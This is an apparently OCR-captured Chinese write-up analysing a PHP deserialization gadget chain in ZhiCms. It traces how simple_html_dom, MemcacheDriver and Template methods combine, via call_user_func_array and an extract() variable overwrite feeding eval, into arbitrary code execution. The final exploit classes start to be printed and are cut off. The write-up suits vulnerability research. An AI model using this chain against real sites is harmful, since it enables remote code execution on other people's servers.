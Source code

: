 ```bash

            if( $return ){
                $content = ob_get_contents();
                ob_end_clean();
                return $content;
            }
        }   
}
```

分析

```bash
simple_html_dom 的__destruct() 方法调用了 clear() 方法，但是 clear() 方法中存在这样一段代码

if (isset(this->parent->clear(); unset($this->parent);}

然后$this->parent 变量是可控的，我们可以利用这里去调用 MemcacheDriver 类中的 clear() 方法

return  $this->mmc->set($this->group.'_ver', $this->ver+1); 

而 MemcacheDriver 的 clear() 方法中将$this->group 拼接字符串'_ver',所以可以触发 simple_html_dom_node 中的__toString() 方法
simple_html_dom_node 的__toString() 方法调用了 outertext() 方法，而这个方法中存在 call_user_func_array() 函数可以调用匿名函数

if ($this->dom && $this->dom->callback!==null){call_user_func_array($this->dom->callback, array($this));}

仔细分析这一段代码，如果$this->dom 和$this->dom->callback 存在，就将$this->dom->callback 作为回调函数调用，这里已经可以执行 phpinfo 了，继续往下走
可以找到 Template 中的 display 函数

extract($this->vars, EXTR_OVERWRITE);
eval('?>' . $this->compile( $tpl, $isTpl));

调用了 complie() 方法，然后将返回值拼接在<?的后面再给 eval 函数当作代码执行
再看看 complie() 方法

public function compile( $tpl, $isTpl = true ) {略}

这个方法其实就是模板化一串字符串，当传入的$isTpl 为 true 的时候就对传入的$tpl 进行修改，但是当$isTpl 变量为 false 的时候就不进行修改
这里的$tpl 和$isTpl 实际上是不可控的，但是 display() 方法中还有一段

extract($this->vars, EXTR_OVERWRITE);

$this->vars 变量是可控的，所以这里我们可以利用 extract() 的变量覆盖将$tpl 和$isTpl 覆盖为我们想要的值，就可以实现任意命令执行
```

最终`exp`​

```bash
<?php
namespace ZhiCms\base;
class Cache{
    protected $config =array();
    protected $cache = 'default';
    public $proxyObj=null;
    public $proxyExpire=1800;
    public function __construct(){
        $this->config = array("CACHE_TYPE"=>"FileCache","MEM_GROUP"=>"tpl");
    }
}
class Template {
    protected $config =array();
    protected $label = null;
```